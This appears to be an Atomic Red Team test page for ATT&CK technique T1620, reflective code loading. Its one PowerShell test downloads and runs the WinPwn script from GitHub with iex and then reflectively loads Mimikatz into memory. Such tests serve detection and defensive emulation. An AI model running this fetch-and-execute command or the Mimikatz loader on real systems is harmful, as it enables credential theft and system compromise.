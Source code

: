 ```yaml
---
tags: [T1620, atomic_test]
filename: "[[T1620|T1620 - Reflective Code Loading]]"
---
```

# T1620 - Reflective Code Loading

## Atomic Test #1 - WinPwn - Reflectively load Mimik@tz into memory
Reflectively load Mimik@tz into memory technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 56b9589c-9170-4682-8c3d-33b86ecb5119






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
mimiload -consoleoutput -noninteractive
```






<br/>
